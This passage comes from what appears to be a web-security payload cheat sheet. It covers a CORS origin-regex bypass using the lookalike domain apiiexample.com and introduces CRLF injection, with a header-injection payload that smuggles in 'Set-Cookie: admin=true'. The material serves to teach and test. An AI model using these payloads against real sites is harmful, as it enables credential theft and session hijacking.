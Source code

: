 In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
# CRLF Injection

## Methodology

HTTP Response Splitting is a security vulnerability where an attacker manipulates an HTTP response by injecting Carriage Return (CR) and Line Feed (LF) characters (collectively called CRLF) into a response header. These characters mark the end of a header and the start of a new line in HTTP responses.

**CRLF Characters**:

* `CR` (`\r`, ASCII 13): Moves the cursor to the beginning of the line.
* `LF` (`\n`, ASCII 10): Moves the cursor to the next line.

By injecting a CRLF sequence, the attacker can break the response into two parts, effectively controlling the structure of the HTTP response. This can result in various security issues, such as:

* Cross-Site Scripting (XSS): Injecting malicious scripts into the second response.
* Cache Poisoning: Forcing incorrect content to be stored in caches.
* Header Manipulation: Altering headers to mislead users or systems

### Session Fixation

A typical HTTP response header looks like this:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=abc123
```

If user input `value\r\nSet-Cookie: admin=true` is embedded into the headers without sanitization:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=value
Set-Cookie: admin=true
```
